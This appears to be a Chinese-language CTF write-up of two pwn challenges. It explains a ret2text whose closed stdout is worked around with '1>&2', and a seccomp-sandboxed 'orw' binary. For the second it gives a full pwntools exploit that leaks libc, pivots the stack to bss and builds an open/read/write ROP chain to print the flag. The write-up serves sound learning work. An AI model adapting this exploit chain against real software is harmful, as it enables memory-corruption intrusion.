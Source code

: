 ```yaml
---
layout: post
---
```

## easy_overflow
就是简单的ret2text，但是回显错误

![image](https://user-images.githubusercontent.com/98165037/213620292-8aaadc0d-b292-40be-98e1-c23630219a93.png)

需要注意的是`close(1)`这个函数，当时看的是[这篇](https://blog.csdn.net/xirenwang/article/details/104139866?spm=1001.2014.3001.5506),学长写的wp上是说在`cat flag`后面加上一句`1>&2`，因为`close(1)`将程序的标准输出(stdout)关闭了导致的没有正常的回显。所以`1>&2` 让flag从标准错误输出(stderr)中输出出来（通过标准输⼊也⾏）。反正就是重定向，原来的出口被关闭了，就得重新再找一个出口

## orw

![沙盒](https://user-images.githubusercontent.com/98165037/213622015-181e9ced-25fb-4006-9ee3-6de5c39bf3cb.PNG)

首先开了沙盒

![orw2](https://user-images.githubusercontent.com/98165037/213621931-53410de0-0b73-4bff-8657-adf802f34597.PNG)

可以看到execve和execveat都无法调用了，就不能getshell，但是可以用open，read和write来获取flag

一开始想用shellcraft写shellcode到bss段，然后栈迁移过去执行，但是后来发现bss段没有执行权限，学长说可以用rop，也可以修改内存的权限或者申请一块有执行权限的内存。然后我就去尝试
rop了。

如果要执行read和write，需要控制rdi，rsi和rdx三个寄存器的值，但是我找不到pop rdx的片段，就尝试用 ret2csu。但是这个比较繁琐，后来也没打通。看wp学到了可以用ropper到libc里去找pop rdx的片段，就是最后还得加上经leak计算出来的libc_base

![image](https://user-images.githubusercontent.com/98165037/213626370-e7084618-425b-42e5-b108-770d301b8744.png)

![image](https://user-images.githubusercontent.com/98165037/213626580-e6235670-62b3-4c84-90bb-81c72bc96fa4.png)

rsi也能找到

![image](https://user-images.githubusercontent.com/98165037/213626697-40920c09-062f-4e99-9dcb-db1fdf0fb9b5.png)

这样就方便多了。

open(存储字符串‘flag’的地址，0)

思路是第一次read函数溢出得到puts函数的真实地址并返回到vuln执行，算出libc_base,因为read函数可溢出的空间不够我放下rop，所以考虑栈迁移

![image](https://user-images.githubusercontent.com/98165037/213628424-334328cb-5775-4003-ae0d-9d58a822d61b.png)

突然发现我可以直接让它从0x4012CF处开始执行，在之前覆盖的时候把rbp覆盖成bss段上的地址(比如bss_start+0x200)，然后这里执行的时候就会直接从rbp-0x100(即bss_start+0x100)处读入(官方wp上竟然也是这样的嘿嘿）

ps：之前写exp的时候是第一次read泄露puts地址，然后返回vuln进行第二次read，第二次时才覆盖rbp到bss上，并返回0x4012CF处进行第三次read，然后第三次read往bss上读rop

现在觉得可以第一次泄露puts的时候同时把rbp覆盖了，直接返回0x4012CF处，第二次read就可以直接读rop了

在rop的最后把rbp覆盖到bss+0x100的地方，再加一个leave_ret就完成了栈迁移(因为我在rop的开头放了字符串'/flag',所以rop是从bss+0x108处开始的）

exp:
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
io=remote('week-1.hgame.lwsec.cn',32025)
#io=process("./orw")
elf=ELF("./orw")
libc=ELF('./libc-2.31.so')

read_addr= elf.plt['read']
put_addr = elf.plt['puts']
pop_rdi = 0x401393
pop_rbp = 0x40117d
leave_ret= 0x4012be
bss = 0x404048
main = 0x4012F0

#csu_end_addr=0x40138A
#csu_front_addr=0x401370
#pop_rsp_13_14_15= 0x40138d
#pop_rsi_15 = 0x401391

#0x0000000000142c92: pop rdx; ret;
pop_rdx = 0x142c92
#0x000000000002601f: pop rsi; ret;
pop_rsi = 0x2601f
vuln = 0x4012C0

payload = b'a'*0x108+p64(pop_rdi)+p64(elf.got['puts'])+p64(put_addr)+p64(vuln)+p64(0)
#gdb.attach(io)#,'b *0x4012F0'
io.recvuntil('.\n')
io.send(payload)

puts_got = u64(io.recv(6)+b'\x00'*2)
libc_base = puts_got- libc.sym["puts"]
write_addr = libc_base + libc.sym["write"]
open_addr =  libc_base + libc.sym["open"]
rdx_addr = libc_base + pop_rdx
rsi_addr = libc_base + pop_rsi

payload = b'b'*0x100+p64(bss+0x200)+p64(0x4012CF)+p64(0)*4
io.send(payload)
#.ljust(0x8,b'\x00')
payload = b'/flag\x00\x00\x00' #p64(bss+0x248)+p64(0x4012CF)+p64(0)*4
payload += p64(pop_rdi)+p64(bss+0x100)+p64(rsi_addr)+p64(0)+p64(open_addr)
payload += p64(pop_rdi)+p64(3)+p64(rsi_addr)+p64(bss+0x400)+p64(rdx_addr)+p64(0x100)+p64(read_addr)
payload += p64(pop_rdi)+p64(1)+p64(rsi_addr)+p64(bss+0x400)+p64(rdx_addr)+p64(0x100)+p64(write_addr)
payload += p64(0)*12+p64(bss+0x100)+p64(leave_ret)
io.send(payload)

#payload += p64(0x4012ed)*10+p64(pop_rbp)+p64(bss+0x110)

io.interactive()
```

另外我一开始调试的时候read总是有时候会多读入一点下一次的payload，有时候又正常只读完这次的payload，加了sleep也没用，学长说可以每次就发送read指定长度的payload，长度不够的地方用0补齐，果然好了
